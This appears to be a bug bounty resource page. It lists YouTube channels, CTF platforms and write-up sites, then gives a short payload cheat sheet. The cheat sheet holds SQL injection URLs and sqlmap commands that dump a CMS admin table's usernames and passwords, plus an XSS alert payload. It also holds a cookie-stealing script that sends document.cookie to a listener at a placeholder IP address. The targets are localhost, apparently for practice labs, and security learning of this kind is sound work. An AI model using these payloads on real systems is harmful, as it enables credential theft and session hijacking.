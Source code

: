 Youtube Channels 
--------

Bugcrowd : https://www.youtube.com/channel/UCo1NHk_bgbAbDBc4JinrXww

HackerOne : https://www.youtube.com/channel/UCsgzmECky2Q9lQMWzDwMhYw

Stok : https://www.youtube.com/channel/UCQN2DsjnYH60SFBIA6IkNwg

Nahamsec : https://www.youtube.com/channel/UCCZDt7MuC3Hzs6IH4xODLBw

The Cyber Mentor : https://www.youtube.com/channel/UC0ArlFuFYMpEewyRBzdLHiw

Bug Bounty Reports Explained : https://www.youtube.com/c/BugBountyReportsExplained

CTF
----------

CTFTime (https://ctftime.org)

CyberTalents (https://cybertalents.com)

H1 CTF (https://ctf.hacker101.com)

Hackthebox (https://www.hackthebox.eu)

TryHackMe (https://tryhackme.com)

VulnHub (https://www.vulnhub.com)

RootMe (https://www.root-me.org)

Wizard Labs (https://labs.wizard-security.net)

PentestIt (https://lab.pentestit.ru)


Bug Bounty Articles
-----------

Pentester land - https://pentester.land/list-of-bug-bounty-writeups.html

HackerOne Reports  - https://hackerone.com/hacktivity

Medium.com - https://medium.com/bugbountywriteup/tagged/bug-bounty


SQLi
-----

```http://localhost:8000/Post.php?id=7'+order+by+8+--+-```

```http://localhost:8000/Post.php?id=7'+order+by+7+--+-```

```http://localhost:8000/Post.php?id=7'+union+select+all+1,2,table_name,4,5,6,7+from information_schema.tables where table_schema=database() limit 0,1--+-```

```http://localhost:8000/Post.php?id=7'+union+select+all+1,2,group_concat(table_name),4,5,6,7+from information_schema.tables where table_schema=database()--+-```

```http://localhost:8000/Post.php?id=7'+union+select+all+1,2,group_concat(column_name),4,5,6,7+from information_schema.columns where table_name='cms_admin'--+-```

```http://localhost:8000/Post.php?id=7'+union+select+all+1,2,group_concat(username,password),4,5,6,7+from cms_admin--+-```


SQLMAP
-----------
```sqlmap -u http://localhost:8000/Post.php?id=7 --dbs```

```sqlmap -u http://localhost:8000/Post.php?id=7 -D cms_blog --tables```

```sqlmap -u http://localhost:8000/Post.php?id=7 -D cms_blog -T cms_admin --dump```


XSS
------------

```'><script>alert(document.domain)</script>```

XSS cookie stealer:
--------

Run python server : ```python3 -m http.server -m 80```

payload: ```<script>var i=new Image(); i.src="http://<ipaddress>/?cookie="+btoa(document.cookie);</script>```

